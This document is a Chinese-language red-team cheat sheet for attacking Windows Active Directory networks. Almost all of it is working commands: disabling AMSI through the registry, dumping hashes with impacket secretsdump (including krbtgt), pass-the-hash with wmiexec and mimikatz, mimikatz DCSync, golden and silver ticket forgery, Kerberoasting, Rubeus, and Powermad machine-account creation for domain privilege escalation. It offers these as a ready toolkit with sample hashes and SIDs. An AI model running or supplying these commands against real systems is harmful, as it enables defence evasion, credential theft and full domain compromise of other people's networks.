

内网工具包
目录
关闭amsi
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse
恢复命令
New-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers" -Name "{2781761E-28E0-4109-99FE-B9D127C57AFE}" -ErrorAction Ignore | Out-Null
设置可加载脚本
set-executionpolicy remotesigned
查看函数帮助文档
function_name -?
get-help function_name -examples
get-help function_name -detailed
将powershell结果输出保存
｜out-file -filepath c:/xx/x/xx
impacket
Python写的的内网工具包
教程https://xz.aliyun.com/t/11877
通用选项
hash认证
py -3 xxx.py domain/user@ip -hashes :161cff084477fe596a5db81874498a24
Kerberos认证
export KRB5CCNAME=ad01.ccache
py -3 xxx.py -k -no-pass
secretsdump dumphash
基于NTLM认证，使用机器用户导出
py -3 secretsdump.py -hashes 5f8506740ed68996ffd4e5cf80cb5174:5f8506740ed68996ffd4e5cf80cb5174 "domain/DC$@DCIP" -just-dc-user krbtgt
基于Kerberos票据导出
export KRB5CCNAME=ad01.ccache
py -3 [secretsdump.py](http://secretsdump.py) -k -no-pass [AD01.test.com](http://AD01.test.com) -dc-ip 192.168.111.146 -target-ip 192.168.111.146 -just-dc-user krbtgt
本地解密SAM
py -3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
wmiexec pth
横向脚本
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24 Administrator@10.10.10.10
ticketer 金银票据伪造
银票
使用win-7\$的机器账户的hash96dd976cc094ca1ddb2f06476fb61eb6伪造cifs/win-7的服务票据，使用票据的用户是根本不存在的qqq或者存在的任意用户。
py -3 .\ticketer.py -spn cifs/win-7 -domain-sid S-1-5-21-2799988422-2257142125-1453840996 -domain test.com -nthash 96dd976cc094ca1ddb2f06476fb61eb6 qqq
金牌
在银票的命令基础上去掉-spn，将nthash修改为krbtgt的hash即可。
py -3 .\ ticketer.py -domain-sid S-1-5-21-2799988422-2257142125-1453840996 -domain test.com -nthash 96dd976cc094ca1ddb2f06476fb61eb6 qqq
ticketConverter ccache与kirbi互转脚本
py -3 .\ticketConverter.py .\administrator.ccache .\administrator.kirbi
GetUserSPNs 查询域内SPN
可使用密码认证、hash认证、Kerberos认证
py -3 GetUserSPNs.py test.com/administrator:1qaz@WSX -target-domain test.com
smbserver 搭建smb服务器
python smbserver.py demo /opt/
远程拉文件 copy samrdump.exe \\192.168.3.137\demo
远程读注册表
有时候拿到hash或密码不能直接pth上去，可以读注册表看看有什么发现
impacket-reg -hashes ':e53d87d42adaa3ca32bdb34a876cbffb' -dc-ip htb.local htb.local/henry.vinson@htb.local query -keyName HKU\\SOFTWARE -s > henry_reg.txt
empire
mimikatz
不解释
DCsync
# 导出域内指定用户的信息(包括哈希值)
lsadump::dcsync /domain:whoamianony.org /user:administrator
lsadump::dcsync /domain:whoamianony.org /user:administrator /csv
# 导出域内所有用户的信息(包括哈希值)
lsadump::dcsync /domain:whoamianony.org /all
lsadump::dcsync /domain:whoamianony.org /all /csv
pth
sekurlsa::pth /user:administrator /domain:"xxx.com" /ntlm:6542d35ed5ff6ae5e75b875068c5d3bc //自行修改
然后会弹出管理员cmd shell
试试读域控文件 net use \\192.168.222.131\c$
黄金票据
wmic useraccount get name,sid 获取sid
这里得到 administrator 的 SID 为 S-1-5-21-284927032-1122706408-2778656994-500，即表示当前域的 SID 就是 S-1-5-21-284927032-1122706408-2778656994（用的时候去掉最后的‐500，500表示为administrator用户）
mimikatz lsadump::dcsync /domain:hack.com /user:krbtgt 导出krbtgt hash

mimikatz kerberos::purge
清除已有票据
kerberos::golden /admin:administrator /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805 /krbtgt:36f9d9e6d98ecf8307baf4f46ef842a2 /ticket:golden.kiribi
生成黄金票据，并保存到golden.kiribi
kerberos::ptt golden.kiribi
导入黄金票据到内存
ls \\dc\c$ 利用
powersploit
ps1的内网工具包
powerview
信息搜集工具
查看域信任
get-domaintrust -domain name
查看acl
Get-ObjectAcl -samAccountName username -ResolveGUIDs
Rubeus
滥用Kerberos的工具
获取tgt
impacket也可以做到
Rubeus.exe asktgt /user:DC /password:******* /domain:attack.local /dc:attack.local /nowrap
杂
Powermad
用于与机器账户交涉。如CVE-2021-42287\&CVE-2021-42278 域内提权，可用它来创建机器用户
Import-Module .\Powermad.ps1;New-MachineAccount -MachineAccount hacksystem -Password $(ConvertTo-SecureString "hack" -AsPlainText -Force)
SharpRDP
使用rdp协议进行横向，可以绕过smb不可用等情况
https://github.com/0xthirteen/SharpRDP